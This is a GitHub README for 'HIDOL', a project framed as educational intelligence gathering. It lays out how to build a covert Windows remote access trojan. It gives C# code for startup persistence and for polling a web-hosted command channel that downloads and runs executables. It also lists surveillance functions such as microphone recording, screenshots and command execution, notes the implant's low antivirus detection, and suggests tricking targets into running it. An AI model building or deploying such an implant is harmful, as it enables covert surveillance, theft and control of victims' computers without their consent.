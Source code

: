 <img src="https://raw.githubusercontent.com/RobinHannanJanssen/HIDOL/main/LOGO.png">
<h3>The High Doses Of Lemon Project</h3>Experimental intelligence gathering from devices compromised with HIDOL
<br>

# Disclaimer
- I, the creator, am in no way responsible for any actions that you may make using this information. 
- You take full responsibility for any action taken using this information. 
- Please take note that this document was designed for educational purposes and should never be used maliciously. 

# Introduction
Cyber threats are one of the biggest threats faced by National Security today. According to the October 2020 report of the Homeland Threat Assessment by the Department of Homeland Security, **Cyberattacks** remain the number one threat. Taken from <a href="https://www.dhs.gov/sites/default/files/publications/2020_10_06_homeland-threat-assessment.pdf" target="_blank">dhs.gov</a>:
> Cyber threats to the Homeland from both nation-states and non-state actors will remain acute. U.S. critical infrastructure faces advanced threats of disruptive or destructive cyber-attacks. Federal, state, local, tribal and territorial governments, as well as the private sector, will experience an array of cyber-enabled threats designed to access sensitive information, steal money, and force ransom payments.

In order, to combat Cyberattacks against a nation or country, an organization should have the ability to distinguish, imitate and ace the methods of present cyberattacks. 
> This is where intelligence comes in.

# How it works
Several variables contribute to how HIDOL functions properly. A combination of covert communications while maintaining stealth is the key to how HIDOL functions. Take a look at the function diagram below:

<img src="https://raw.githubusercontent.com/RobinHannanJanssen/HIDOL/main/architecture.png">

Contrary to what you think, HIDOL is not one single program. Like i said before, several variables contribute such as **covert communications**; we shall use Python as the programming language for the control panel, as Python is extremely useful and much easier when working with scraping. 

We shall have the Target application created using C#. C# is one of the best options when targeting Windows only programs, but Java or something else might do. The app should be named something unsuspicious like **Runtime Dllhost** or **webUtc**. There will be a timer with an interval of seconds to visit the referrer site and check for the latest instruction. The target app will make sure it is set to *Run on startup* without administrative rights. This is possible to do so using a simple copy:
```csharp
static void AddToStartup() {
    try {
    	string exe_path = Application.ExecutablePath;
    	string startup_path = Environment.GetFolderPath(Environment.SpecialFolder.Startup) + "\\" + System.AppDomain.CurrentDomain.FriendlyName;

        System.IO.File.Copy(exe_path, startup_path);
    }
    catch { }
}
```

Having a domain or DNS hosted is a must, as both the control panel and the target application depends on having a referrer in which communications and information posts takes place.

A normal conversation between the control panel, the referrer and the target app would need an instruction. The control panel (a.k.a you) edits a webpage (of DNS or domain) string. For example, you want the target app to download a file and run it. The comparison between the pseudo instruction and the string that the program would understand is:
- Pseudo instruction: `Download file from https://example.com/example.exe`
- String displayed on DNS: `DOWNLOAD https://example.com/example.exe`

When the target app makes the next web request, it will undergo a function like this:
```csharp
//make instruction to site and set contents to string
string instruction = Request({{YOUR_SITE}});

if (instruction.Contains("DOWNLOAD")) {
    //extract instruction from site
    string[] splitted = instruction.Split(' ');
    string url = splitted[1].ToString();

    //acknowledge file as .exe
    string path = Application.StartupPath + "\\" + "program.exe";

    //download the program
    WebClient Client = new WebClient();
    Client.DownloadFile(new Uri(url), path);

    //run file
    System.Diagnostics.Process.Start(path);
}
```

Up to this point, the downloaded program runs and captures information such as OS information and local IP address. The program then posts that information back to the DNS on a separate page, where it logs the info. The control panel would then login to that DNS or domain to gather the information which was stored. But we may also use SMTP using Gmail to send the info to your email.

# Usage
We can get very creative and add functions which will guarantee (almost) full control over the target computer. Such as the following:
- Record the device microphone for a given amount of time
- Take a screenshot of the target's computer
- Download a file and run it (e.g: .mp3, .exe)
- Run a CMD command (we would be able to find local files this way)
- Display message to the target device
- Run the browser to a specific URL
- Stay stationary/Stop any previous instruction

There is no doubt that a program with these capabilities would raise the suspicion of **Antivirus softwares**. According to <a href="https://www.virustotal.com/gui/file/005f6a68736937d2ed265a2dbee7123a72f5a47abfd2db24349d6c636c7d2439/detection">virustotal.com</a>, the target app had a **4** out of **72** suspicion rate (which is not bad).

# Deployment
- Since we are using C# as the target app language, we must ensure that the target device has a .NET framework installed. We shall use framework version 3.5 as according to <a href="https://docs.microsoft.com/en-us/dotnet/framework/migration-guide/versions-and-dependencies#net-framework-35">docs.microsoft.com</a>, version 3.5 is already included in Windows 10, 8.1, 8 and 7. So we can be sure that the target device has already satisfied this requirement.
- To get HIDOL to work, we need a target device to compromise with. This means finding a target who uses the computer. And somehow finding a way to get the target to double-click on the target app. Otherwise, you may have physical access to the computer, you can do it yourself. All it takes is a double-click.
- From that moment you double-clicked, the target app will remain indefinitely. We may want to add an `Uninstall` function, in case the target user finds out.
- Finally, we will be able to conduct our experiment on the target device.

# Pros and Cons
### Pros
- An alternative to information gathering using port forward
- Does not require administrative rights
- Able to conduct functions as a normal user
- (Almost) free from antivirus software
- Access to files, drivers, etc
- Being able to conduct stealth

### Cons
- Tough installation
- Delayed instruction during timer interval
- Not real-time information
- Unable to conduct multiple tasks at once

# Conclusion
There are multiple ways of gathering intelligence, for government agencies, this would be a much easier task. The intelligence community seeks to reduce uncertainty and provide warning about potential threats to its National security. Per the example above, we have used a fixed environment as an operating system, and we were able to exploit that environment even with its limitations. By adding these methods to the existing capabilities of cybersecurity, we're not only bolstering our security operations effectiveness, but we are also greatly improving the safety and protection against these techniques, in the cyber world.

# Credits
- [Robin Hannan Janssen](https://github.com/robinhannanjanssen) - Lead designer
